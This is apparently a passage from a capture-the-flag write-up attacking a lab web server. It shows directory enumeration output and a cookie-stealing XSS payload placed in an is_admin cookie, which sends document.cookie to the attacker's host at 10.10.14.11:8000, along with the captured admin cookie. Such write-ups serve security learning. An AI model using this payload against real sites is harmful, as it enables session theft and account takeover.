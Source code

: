 
```
  _|. _ _  _  _  _ _|_  v0.4.3                                              
 (_||| _) (/_(_|| (_| )                                                      
                                                                              
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25
Wordlist size: 11722

Output: /home/kali/dirsearch/reports/http_10.10.11.8_5000/__24-04-13_02-06-29.txt

Target: http://10.10.11.8:5000/

[02:06:29] Starting:                                                          
[02:08:52] 401 -  317B  - /dashboard                                        
[02:11:02] 200 -    2KB - /support                                          
                                                                             
Task Completed
```


The only other directory found was "/dashboard". Upon visiting dashboard it seems the user must somehow authenticate themselves before proceeding.


Returning to the "/support" page, several attacks were attempted, such as SQL injections, command injections and SSTIs, by submitting payloads on various fields in the form. When these malicious payloads were attempted, the server will send a new page to the client informing them that a hacking attempt was found. The headers of the request that the user sent were also displayed.


This is possibly open to vulnerabilities as a malicious payload can be placed in one of the headers and sent to the server, which could be executed if the input in the headers are not properly sanitised. Upon looking at the request, it can be seen that the server sent a cookie to the user. By inspecting the webpage and providing a malicious payload in the cookie's is_admin field, before submitting a malicious payload in the message field of the form, the payload can be executed. Eventually the below payload was provided to the is_admin cookie (the XSS payload was found on https://pswalia2u.medium.com/exploiting-xss-stealing-cookies-csrf-2325ec03136e):


```javascript
<script>var i=new Image(); i.src="http://10.10.14.11:8000/?cookie="+document.cookie;</script>
```


The above is a Cross Site Scripting payload. A HTML element was provided which contains Javascript code that will be executed by the web server if not properly sanitised. When executed, the payload will create a new image and give the image a source, which will be `"http://10.10.14.11:8000/?cookie="+document.cookie;`. This will cause the webserver to visit the attacker's webserver and will include the server's cookie in the url parameters.


Before sending the payload, a python webserver was started on the attacking machine using the command `python3 -m http.server 8000`.


When the request was sent, the python webserver captured a request:


```
10.10.11.8 - - [13/Apr/2024 03:21:38] "GET /?cookie=is_admin;%20is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1" 200 -
```
